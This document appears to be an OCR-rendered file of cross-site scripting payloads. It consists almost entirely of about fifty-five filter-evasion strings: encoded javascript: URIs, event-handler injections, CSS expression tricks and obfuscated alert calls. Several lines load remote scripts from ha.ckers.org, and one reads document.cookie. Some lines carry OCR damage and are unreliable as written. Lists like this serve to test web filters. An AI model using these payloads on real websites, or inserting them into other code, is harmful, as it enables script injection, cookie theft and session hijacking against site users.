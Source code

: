 <IFRAME SRC="javascript:alert('XSS');"></IFRAME>
@if(@_mc680x0)@else alert(@_jscript_version)@end
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<;XSS STYLE=";xss:expression(alert(';XSS';))";>;
<xml src="javascript:document.vulnerable=true;">
<img src="livescript:document.vulnerable=true;">
<img SRC="javascript:document.vulnerable=true;">
"\><\a><\><img src=foo.png onerror=alert(\1\) \>
<body onload="javascript:alert(([code])"></body>
<img src="mocha:document.write("XSS-XSS-XSS");">
&<script>document.write("XSS-XSS-XSS");</script>
<iframe src=http://ha.ckers.org/scriptlet.html <
window["window"]["window"]["window"]["alert"](3);
38) <svg><script onlypossibleinopera:-)> alert(1)
<;IMG SRC=";jav&;#x09;ascript:alert(';XSS';);";>;
</XSS/*-*/STYLE=xss:e/**/xpression(alert('XSS'))>
<iframe src="vbscript:document.vulnerable=true;">
<img SRC="jav ascript:document.vulnerable=true;">
%253Cscript%253Ealert('XSS')%253C%252Fscript%253E
<BODY onload!#$%&()*~+-_.,:;?@[/]^`=alert("XSS")>
<;IMG SRC=";jav&;#x0A;ascript:alert(';XSS';);";>;
</script><script >alert(document.cookie)</script>
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
12) &#34;&#62;<h1/onmouseover='\u0061lert(1)'>%00
9) <img src="/" =_=" title="onerror='prompt(1)'">
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
5) <img/src=`%00` onerror=this.onerror=confirm(1)
<;IMG SRC=";jav&;#x0D;ascript:alert(';XSS';);";>;
<A HREF="http://0102.0146.0007.00000223/">XSS</A>
<;A HREF=";http://ha.ckers.org@google";>;XSS<;/A>;
<;A HREF=";http://google:ha.ckers.org";>;XSS<;/A>;
"><STYLE>@import"javascript:alert('XSS')";</STYLE>
%3C/script%3E%3Cscript%3Ealert%281%29%3C/script%3E
<input onblur=write(1) autofocus><input autofocus>
@cc_on@set@_=5e-324@_?alert(@set@alert=1@alert):@_
eval('ale'+/............../.__proto__[-1]+'rt(1)')
data:text/html,<script>location+=location</script>
?test=" type="image" src="x" onerror="alert(/XSS/)
$\u5002=$\u5002[/replace/[-$\u5003]](/u/g,$\u5001)
eval((['alee','(rt(1(,))']+'').replace(/.,./g,''))
Function(<text>\u0061{new String}lert(1)</text>)()
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js...
<div onmouseover="document.write("XSS-XSS-XSS");">
script-typetextjavascriptalertdocumentcookiescript
&#39;">><<<iMg sRc = 1.gif onerror = alert("1")>>>
</title><SCRIPT>document.vulnerable=true;</script>
<~/XSS/*-*/STYLE=xss:e/**/xpression(alert('XSS'))>
<;BODY BACKGROUND=";javascript:alert(';XSS';);";>;
2) <div onmouseover='alert&lpar;1&rpar;'>DIV</div>
26) <img/src=@&#32;&#13; onerror = prompt('&#49;')
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<;IFRAME SRC=http://ha.ckers.org/scriptlet.html <;
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<script language="JavaScript">alert('XSS')</script>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
27) <style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;